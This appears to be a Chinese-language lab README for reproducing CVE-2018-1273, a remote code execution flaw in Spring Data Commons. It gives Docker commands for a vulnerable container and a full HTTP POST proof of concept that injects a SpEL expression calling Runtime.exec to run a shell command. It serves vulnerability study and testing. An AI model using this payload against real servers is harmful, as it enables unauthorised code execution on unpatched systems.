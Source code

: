 ## Spring Data Commons 代码执行漏洞(CVE-2018-1273)

### 漏洞信息

 - [Spring Data Commons Remote Code Execution 分析-【CVE-2018-1273】](https://xz.aliyun.com/t/2269)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_spring_2
 ```

2. 启动环境

 ```
$ docker run -d -p 8080:8080 medicean/vulapps:s_spring_2
 ```
 > `-p 8080:8080` 前面的 8080 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`, 假设启动的端口号为 8080

#### PoC

1. 访问 `http://127.0.0.1:8080/users`，测试服务是否启动成功

2. 发送如下数据包,执行命令为: `/bin/touch /tmp/vuln`

```
POST /users?page=&size=5 HTTP/1.1
Host: 127.0.0.1:8080
Proxy-Connection: keep-alive
Content-Length: 138
Cache-Control: max-age=0
Origin: http://127.0.0.1:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1:8080/users
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("/bin/touch /tmp/vuln")]=test&password=test&repeatedPassword=test
```

### 参考链接

- [Spring Data Commons Remote Code Execution 分析-【CVE-2018-1273】](https://xz.aliyun.com/t/2269)
